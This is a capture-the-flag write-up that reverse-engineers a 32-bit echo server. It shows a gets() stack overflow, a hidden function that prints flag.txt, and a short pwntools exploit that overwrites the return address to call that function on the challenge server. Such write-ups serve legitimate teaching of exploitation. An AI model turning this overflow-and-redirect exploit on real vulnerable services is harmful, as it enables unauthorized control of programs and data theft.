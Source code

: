 ### Solved by superkojiman

We're given 32-bit ELF binary that acts as an echo server. We can run it and it just echoes back whatever we type in: 

```
# ./echo 
AAAAAAAAAAAAAAAAAAAAAAAAA
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAA
```

Pretty simple. If we look at the disassembly of main(), we see that its purpose is mostly to call a function called test(). The disassembly of test() looks like this: 

```
[0x08048480]> pdf@sym.test
      ; CODE (CALL) XREF 0x08048631 (sym.main)
/ function: sym.test (59)
|     0x080485f0  sym.test:
|     0x080485f0     55               push ebp
|     0x080485f1     89e5             mov ebp, esp
|     0x080485f3     83ec58           sub esp, 0x58
|     0x080485f6     8d45c6           lea eax, [ebp-0x3a]
|     0x080485f9     890424           mov [esp], eax
|     0x080485fc     e8effdffff       call dword imp.gets
|        ; imp.gets()
|     0x08048601     c7042401000000   mov dword [esp], 0x1
|     0x08048608     e813feffff       call dword imp.sleep
|        ; imp.sleep()
|     0x0804860d     a138a00408       mov eax, [sym.stderrGLIBC_2.0]
|     0x08048612     8d55c6           lea edx, [ebp-0x3a]
|     0x08048615     89542408         mov [esp+0x8], edx
|     0x08048619     c7442404db860408 mov dword [esp+0x4], str.ECHOs
|     0x08048621     890424           mov [esp], eax
|     0x08048624     e827feffff       call dword imp.fprintf
|        ; imp.fprintf()
|     0x08048629     c9               leave
\     0x0804862a     c3               ret
      ; ------------

```

So the binary uses gets() to get our input, and then prints it out to stderr. A call to gets() is an immediate hint that we can probably do some stack smashing here. Let's test that theory:  

```
# python -c 'print "A"*100' | ./echo 
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

# gdb -c core -q -batch -n -ex 'p $eip' 
[New LWP 12365]

warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf774d000
Core was generated by `./echo'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
$1 = (void (*)()) 0x41414141
```

Great, we've overwritten EIP. Now what? The binary has NX enabled and I assumed that ASLR was enabled on the server as well. Let's see what functions are available to us: 

```
[0x08048480]> afl
0x080483f0     16   0  imp.gets
0x08048400     16   0  imp.fgets
0x08048410     16   0  imp.fclose
0x08048420     16   0  imp.sleep
0x08048430     16   0  imp.__gmon_start__
0x08048440     16   0  imp.__libc_start_main
0x08048450     16   0  imp.fprintf
0x08048460     16   0  imp.fopen
0x08048470     16   0  imp.fputs
0x0804862b     18   1  sym.main
0x080485f0     59   1  sym.test
0x08048480     34   1  section..text
0x080484c0     16   4  sym.deregister_tm_clones
0x080484d0     26   3  loc.080484d0
0x080484cf      1   1  loc.080484cf
0x080484f0     25   4  sym.register_tm_clones
0x08048509     30   3  loc.08048509
0x08048508      1   1  loc.08048508
0x08048530     30   3  sym.__do_global_dtors_aux
0x0804854c      2   1  loc.0804854c
0x08048550    160   8  sym.frame_dummy
0x08048578    120   5  loc.08048578
0x080485aa     70   4  loc.080485aa
0x080485c0     48   3  loc.080485c0
0x080485ac     68   2  loc.080485ac
0x080485ee      2   1  loc.080485ee
0x080486b0      2   1  sym.__libc_csu_fini
0x080484b0      4   1  sym.__x86.get_pc_thunk.bx
0x080486b4     20   1  section..fini
0x08048640     97   4  sym.__libc_csu_init
0x080483b0     35   3  section..init
0x080483ce      5   1  loc.080483ce
0x08048699      8   1  loc.08048699
0x08048678     41   2  loc.08048678
0x0804857d    115   7  sym.sample
```

Interesting, there are calls to fopen(), fclose(), fgets(), and fputs(). But where are they being called from? Taking a closer look at the radare2 output, we see that there's another function called sym.sample. Let's disassemble this. 


```
[0x08048480]> pdf @sym.sample
/ function: sym.sample (115)
|         0x0804857d  sym.sample:
|         0x0804857d     55               push ebp
|         0x0804857e     89e5             mov ebp, esp
|         0x08048580     81ec88000000     sub esp, 0x88
|         0x08048586     c7442404d0860408 mov dword [esp+0x4], 0x80486d0
|         0x0804858e     c70424d2860408   mov dword [esp], str.flag.txt
|         0x08048595     e8c6feffff       call dword imp.fopen
|            ; imp.fopen()
|         0x0804859a     8945f4           mov [ebp-0xc], eax
|         0x0804859d     837df400         cmp dword [ebp-0xc], 0x0
|     ,=< 0x080485a1     7507             jnz loc.080485aa
|     |   0x080485a3     b801000000       mov eax, 0x1
|    ,==< 0x080485a8     eb44             jmp loc.080485ee
|   ,||   ; CODE (JMP) XREF 0x080485a1 (sym.frame_dummy)
/ loc: loc.080485aa (70)
|   ,||   0x080485aa  loc.080485aa:
|   ,=`-> 0x080485aa     eb14             jmp loc.080485c0
|  .      ; CODE (JMP) XREF 0x080485dc (sym.frame_dummy)
/ loc: loc.080485ac (68)
|  .      0x080485ac  loc.080485ac:
|  .----> 0x080485ac     a138a00408       mov eax, [sym.stderrGLIBC_2.0]
|  |||    0x080485b1     89442404         mov [esp+0x4], eax
|  |||    0x080485b5     8d4590           lea eax, [ebp-0x70]
|  |||    0x080485b8     890424           mov [esp], eax
|  |||    0x080485bb     e8b0feffff       call dword imp.fputs
|  |||       ; imp.fputs()
|  ||     ; CODE (JMP) XREF 0x080485aa (loc.080485aa)
/ loc: loc.080485c0 (48)
|  ||     0x080485c0  loc.080485c0:
|  |`---> 0x080485c0     8b45f4           mov eax, [ebp-0xc]
|  | |    0x080485c3     89442408         mov [esp+0x8], eax
|  | |    0x080485c7     c744240464000000 mov dword [esp+0x4], 0x64
|  | |    0x080485cf     8d4590           lea eax, [ebp-0x70]
|  | |    0x080485d2     890424           mov [esp], eax
|  | |    0x080485d5     e826feffff       call dword imp.fgets
|  | |       ; imp.fgets()
|  | |    0x080485da     85c0             test eax, eax
|  `====< 0x080485dc     75ce             jnz loc.080485ac
|    |    0x080485de     8b45f4           mov eax, [ebp-0xc]
|    |    0x080485e1     890424           mov [esp], eax
|    |    0x080485e4     e827feffff       call dword imp.fclose
|    |       ; imp.fclose()
|    |    0x080485e9     b800000000       mov eax, 0x0
|    |    ; CODE (JMP) XREF 0x080485a8 (sym.frame_dummy)
/ loc: loc.080485ee (2)
|    |    0x080485ee  loc.080485ee:
|    `--> 0x080485ee     c9               leave
\         0x080485ef     c3               ret
          ; ------------
```

One thing stands out here; fopen() opens a file called flag.txt. So it looks like sample() opens flag.txt, reads its contents into a buffer, and fputs() it to stderr. Now if we connect to the server, we see that our input is echoed back to us, which means stderr is being redirected back to us. So all we need to do is overwrite EIP with the address of sample(), and when sample() is called, it should print out the flag. 

The exploit: 

```python
#!/usr/bin/env python
from pwn import *
target = "hack.bckdr.in"

r = remote(target, 8002)

buf = "" 
buf += "A"*62
buf += p32(0x804857d)   # address of sample()

r.send(buf + "\n")
print r.recvall()
```

Getting the flag: 

```text
# ./sploit.py 
[+] Opening connection to hack.bckdr.in on port 8002: Done
[+] Recieving all data: Done (138B)
[*] Closed connection to hack.bckdr.in port 8002
ECHO: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}\x85\x0
flag_goes_here_flag_goes_here_flag_goes_here_flag_goes_here_flag
```


